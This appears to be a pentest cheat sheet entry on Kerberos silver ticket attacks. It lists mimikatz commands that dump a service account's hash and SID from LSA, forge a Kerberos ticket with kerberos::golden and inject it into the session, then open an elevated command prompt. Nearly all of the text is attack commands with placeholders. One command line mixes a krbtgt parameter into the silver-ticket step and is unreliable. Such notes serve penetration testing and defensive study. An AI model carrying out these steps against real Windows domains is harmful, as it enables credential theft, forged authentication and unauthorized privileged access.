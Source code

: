 # Kerberos: Silver Ticket

#### 🎟️ Silver ticket (`mimikatz`)

1. Dump the hash and security identifier (SID) of the targeted service account:

```
mimikatz # lsadump::lsa /inject /name:<SERVICE_NAME>
```

1. Create a silver ticket:

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
...
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<USER_SID> /target:<SPN> /service:<SERVICE_PROTOCOL> /rc4:<SERVICE_HASH> /ptt

mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<USER_SID> /krbtgt:<SERVICE_NTLM_HASH> [/id:1103] [/ptt]
```

1. Open a new command prompt with elevated privileges with the given ticket:

```
mimikatz # misc::cmd
```
